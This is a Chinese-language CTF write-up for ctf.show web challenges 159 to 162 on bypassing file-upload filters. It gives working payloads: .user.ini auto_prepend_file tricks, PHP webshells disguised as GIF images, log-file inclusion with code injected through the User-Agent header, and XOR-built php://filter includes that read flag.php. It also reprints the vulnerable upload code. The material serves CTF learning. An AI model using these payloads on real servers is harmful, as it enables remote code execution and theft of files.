<h1 id="web159"><a href="#web159" class="headerlink" title="web159"></a>web159</h1><h2 id="原始信息-69"><a href="#原始信息-69" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示文本：师傅们可以的。</p>
<h2 id="解题-65"><a href="#解题-65" class="headerlink" title="解题"></a>解题</h2><p>和上面差不多，只不过图片那里得稍微修改一下。</p>
<p>上传配置文件：<code>.user.ini</code></p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>上传图片文件/木马文件：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89</span><br><span class="line">&lt;?=`cat ../f*`?&gt;</span><br></pre></td></tr></table></figure>

<p>下面是upload文件内容：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log|\(/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web160"><a href="#web160" class="headerlink" title="web160"></a>web160</h1><h2 id="原始信息-70"><a href="#原始信息-70" class="headerlink" title="原始信息"></a>原始信息</h2><p>提供的信息：师傅们可以的</p>
<p>其它前端还是没变化。</p>
<h2 id="解题-66"><a href="#解题-66" class="headerlink" title="解题"></a>解题</h2><p>这道题限制的符号明显增多了不少，这次试验的是使用日志文件包含进行绕过.</p>
<p>想要绕过的办法是这样子的：使用配置文件.user.ini上传入服务端，再传入图片a作为包含文件包含日志文件，最后从UA头写php代码读取文件目录并且展出文件即可。</p>
<p>试验过使用 <code>&lt;?=eval($_POST[x])?&gt;</code> 进行日志文件的包含，但是死活不成功，原因不详。</p>
<p>具体方法如下：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">a.png的内容：</span><br><span class="line">-----------------------------423079147019571131243490681925</span><br><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">&lt;?=include&quot;/va&quot;.&quot;r/l&quot;.&quot;og/ngi&quot;.&quot;nx/ac&quot;.&quot;cess.l&quot;.&quot;og&quot;?&gt;</span><br><span class="line">-----------------------------423079147019571131243490681925--</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line">.user.ini的内容</span><br><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">auto_prepend_file=a.png</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">再次访问UA的时候：</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0&lt;?=var_dump(system(&#x27;ls ../&#x27;));?&gt;</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0&lt;?=var_dump(system(&#x27;cat ../flag.php&#x27;));?&gt;</span><br></pre></td></tr></table></figure>

<p>说实在，这次测试删了很多次环境，有点乱。下面是源代码：</p>
<p>upload.php</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log|\(| |\`/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web161"><a href="#web161" class="headerlink" title="web161"></a>web161</h1><h2 id="原始信息-71"><a href="#原始信息-71" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示信息：狮虎们轻点，嘤嘤嘤</p>
<p>az……</p>
<h2 id="解题-67"><a href="#解题-67" class="headerlink" title="解题"></a>解题</h2><p>流程其实和上面大差不差：</p>
<p>上传 <code>a.png</code></p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">&lt;?=include&quot;/va&quot;.&quot;r/l&quot;.&quot;og/ngi&quot;.&quot;nx/ac&quot;.&quot;cess.l&quot;.&quot;og&quot;?&gt;</span><br></pre></td></tr></table></figure>

<p>上传 <code>user.ini</code></p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>访问upload文件夹并且利用即可：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET: /upload/</span><br><span class="line">POST: 1=system(&#x27;cat ../flag.php&#x27;);</span><br></pre></td></tr></table></figure>

<p>这题的 <code>upload.php</code> 文件内容如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>) &amp;&amp; <span class="title function_ invoke__">getimagesize</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log|\(| |\`/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web162–打个点，有很多解决办法"><a href="#web162–打个点，有很多解决办法" class="headerlink" title="web162–打个点，有很多解决办法"></a>web162–打个点，有很多解决办法</h1><h2 id="原始信息-72"><a href="#原始信息-72" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示：姿势挺多的啊？啊？</p>
<p>嘶……这是难度要飙升的感觉……</p>
<h2 id="解题–伪协议（个人的思路）"><a href="#解题–伪协议（个人的思路）" class="headerlink" title="解题–伪协议（个人的思路）"></a>解题–伪协议（个人的思路）</h2><p>限制级别提升，无法直接使用点点进行拼接字符串和拼接文件后缀。</p>
<blockquote>
<p>刚撞的南墙：包含错误日志无法包含上，插入一句话木马失效（是笔者姿势不够骚）</p>
<p>目前来看仅存黑名单过滤，没过多的限制字符，暂时能进行各种操作。</p>
<p>就笔者目前的水平，第一个想到的是文件包含执行，使用其他文件替代日志文件进行包含，再使用日志文件进行一句话木马的getshell。很遗憾，失败了好几次。</p>
</blockquote>
<p>头一次遇到这种有些别扭和拐弯的题目，笔者使用的是 <code>.user.ini + f</code> 两个文件进行伪协议包含文件内容的方式获取flag。</p>
<blockquote>
<p>被迫换了个思路：使用伪协议进行flag文件内容的获取。</p>
</blockquote>
<h3 id="步骤1-上传-user-ini文件"><a href="#步骤1-上传-user-ini文件" class="headerlink" title="步骤1 上传.user.ini文件"></a>步骤1 上传.user.ini文件</h3><p>老生常谈的感觉，上传文件的数据包贴这里了。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">POST /upload.php HTTP/1.1</span><br><span class="line">Host: 0c1dc3f7-1be6-4fcb-b3bb-fd8306e157b8.challenge.ctf.show</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0</span><br><span class="line">Accept: application/json, text/javascript, */*; q=0.01</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">X-Requested-With: XMLHttpRequest</span><br><span class="line">Content-Type: multipart/form-data; boundary=---------------------------300581395340124539282439604028</span><br><span class="line">Content-Length: 633</span><br><span class="line">Origin: http://0c1dc3f7-1be6-4fcb-b3bb-fd8306e157b8.challenge.ctf.show</span><br><span class="line">Connection: close</span><br><span class="line">Referer: http://0c1dc3f7-1be6-4fcb-b3bb-fd8306e157b8.challenge.ctf.show/</span><br><span class="line"></span><br><span class="line">-----------------------------300581395340124539282439604028</span><br><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">auto_prepend_file=f</span><br><span class="line">-----------------------------300581395340124539282439604028--</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>包含了一个名字为 <code>f</code> 的文件，把 <code>f</code> 包含到 <code>index.php</code> 当中并且解析为 <code>php</code> .</p>
<h3 id="步骤2-上传f文件进行包含"><a href="#步骤2-上传f文件进行包含" class="headerlink" title="步骤2 上传f文件进行包含"></a>步骤2 上传f文件进行包含</h3><h4 id="完整WP"><a href="#完整WP" class="headerlink" title="完整WP"></a>完整WP</h4><p>上传文件的整体内如截数据包表单部分，放这了：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">-----------------------------<span class="number">300581395340124539282439604028</span></span><br><span class="line">Content-Disposition: form-data; name=<span class="string">&quot;file&quot;</span>; filename=<span class="string">&quot;f&quot;</span></span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$b</span>=<span class="string">&#x27;A&#x27;</span>^<span class="string">&#x27;o&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eeea</span>=<span class="string">&#x27;ph&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eeeb</span>=<span class="string">&#x27;p&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eee</span>=<span class="string">&quot;<span class="subst">$eeea</span><span class="subst">$eeeb</span>&quot;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$fffa</span>=<span class="string">&#x27;fla&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$fffb</span>=<span class="string">&#x27;g&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$fff</span>=<span class="string">&quot;<span class="subst">$fffa</span><span class="subst">$fffb</span><span class="subst">$b</span><span class="subst">$eee</span>&quot;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$ggga</span>=<span class="string">&#x27;:&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$aaa</span>=<span class="string">&quot;<span class="subst">$eee</span><span class="subst">$ggga</span>//filter/read=convert&quot;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$ccc</span>=<span class="string">&quot;base64-encode/resource=<span class="subst">$b</span><span class="subst">$b</span>/<span class="subst">$fff</span>&quot;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$xxxx</span>=<span class="string">&quot;<span class="subst">$aaa</span><span class="subst">$b</span><span class="subst">$ccc</span>&quot;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="keyword">include</span><span class="string">&quot;<span class="subst">$xxxx</span>&quot;</span><span class="meta">?&gt;</span></span><br><span class="line">-----------------------------<span class="number">300581395340124539282439604028</span>--</span><br></pre></td></tr></table></figure>

<p>详细解析如下：</p>
<h4 id="拼接字符串-php和"><a href="#拼接字符串-php和" class="headerlink" title="拼接字符串 php和."></a>拼接字符串 php和.</h4><p>这次使用异或进行限制字符的获取和拼接，保证整个字符串的完整性。</p>
<p>这里使用 <code>cmd-php</code> 获取我们想要的 <code>.</code> 的异或内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">php -r <span class="string">&quot;echo &#x27;A&#x27;^&#x27;o&#x27;;&quot;</span></span></span><br><span class="line">.</span><br></pre></td></tr></table></figure>

<p>在 <code>php</code> 文件当中拼接处字符串：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?=</span><span class="variable">$b</span>=<span class="string">&#x27;A&#x27;</span>^<span class="string">&#x27;o&#x27;</span><span class="meta">?&gt;</span> 	<span class="comment"># 异或出 &quot;.&quot;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eeea</span>=<span class="string">&#x27;ph&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eeeb</span>=<span class="string">&#x27;p&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$eee</span>=<span class="string">&quot;<span class="subst">$eeea</span><span class="subst">$eeeb</span>&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 拼接出 &quot;php&quot;</span></span><br></pre></td></tr></table></figure>

<h4 id="拼接flag-php"><a href="#拼接flag-php" class="headerlink" title="拼接flag.php"></a>拼接flag.php</h4><p>这个基本就靠前面累起来了。<code>.php</code> 这个字符的拼接依赖的是前面的拼接，flag这个字符串的拼接就纯手拼。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?=<span class="variable">$fffa</span>=<span class="string">&#x27;fla&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$fffb</span>=<span class="string">&#x27;g&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$fff</span>=<span class="string">&quot;<span class="subst">$fffa</span><span class="subst">$fffb</span><span class="subst">$b</span><span class="subst">$eee</span>&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 拼出 &quot;flag.php&quot;</span></span><br></pre></td></tr></table></figure>

<h4 id="拼接伪协议部分和开始文件包含"><a href="#拼接伪协议部分和开始文件包含" class="headerlink" title="拼接伪协议部分和开始文件包含"></a>拼接伪协议部分和开始文件包含</h4><p>这里使用的是伪协议 <code>php://filter</code> ，能以 <code>base64</code> 的方式获取文件内容。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?=</span><span class="variable">$ggga</span>=<span class="string">&#x27;:&#x27;</span><span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$aaa</span>=<span class="string">&quot;<span class="subst">$eee</span><span class="subst">$ggga</span>//filter/read=convert&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 拼出 php:////filter/read=convert</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$ccc</span>=<span class="string">&quot;base64-encode/resource=<span class="subst">$b</span><span class="subst">$b</span>/<span class="subst">$fff</span>&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 拼出 base64-encode/resource=../flag.php</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="variable">$xxxx</span>=<span class="string">&quot;<span class="subst">$aaa</span><span class="subst">$b</span><span class="subst">$ccc</span>&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 拼出完整的伪协议 php:////filter/read=convert.base64-encode/resource=../flag.php</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="keyword">include</span><span class="string">&quot;<span class="subst">$xxxx</span>&quot;</span><span class="meta">?&gt;</span> <span class="comment"># 开始进行文件包含</span></span><br></pre></td></tr></table></figure>

